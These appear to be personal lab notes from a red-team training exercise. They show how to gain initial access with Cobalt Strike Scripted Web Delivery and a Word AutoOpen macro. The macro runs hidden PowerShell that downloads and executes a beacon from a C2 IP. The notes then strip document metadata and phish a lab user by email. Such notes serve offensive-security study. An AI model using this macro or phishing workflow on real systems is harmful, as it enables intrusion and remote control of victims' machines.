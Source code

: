 to first setup a Scripted Web Delivery host file go to Attacks -> Scripted Web Delivery
- Scripted Web Delivery gives us the one liner to paste
![[Pasted image 20230825111253.png]]
Can leave URI Path as default
Localhost is the Teams Server
![[Pasted image 20230825111520.png]]
This generates the string that will call back to the teams server
![[Pasted image 20230825111628.png]]
Open word as admin -> Click View -> Macros -> View macros
Created macro named newdoc
![[Pasted image 20230825105835.png]]
Copied and pasted macro from notes to pull back whatever beacon is being hosted on port 80
Ensure to add """ at the end to ensure that the macro will work.
```bash
# changed to ip address of teams server because i dont like dealing with host names.
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.50:80/a'))"""

End Sub
```
![[Pasted image 20230825110015.png]]
Clicked file -> save under payloads -> gave file name notamacro -> saved as type Word 97-2003 Document
![[Pasted image 20230825110413.png]]
After saving the file go to the word doc click file -> info -> Check for Issues -> and inspect document
![[Pasted image 20230825110527.png]]
Inspect the document with everything checked, then once the results come back click remove all on Document Properties and Personal Information.
![[Pasted image 20230825110927.png]]
after resave the document.

Open up outlook on cyberbotic\iyates : Summer 2022 and attach the macro to send to bob farmer
![[Pasted image 20230825112155.png]]
Logon to WKSTN-2 to open the email as bob farmer.
Open the notamacro.doc
![[Pasted image 20230825112618.png]]
Enable macros and a powershell instance will flash on the screen to kick off the shell code for beacon
![[Pasted image 20230825112737.png]]
Now we have initial access to bfarmer.
![[Pasted image 20230825112810.png]]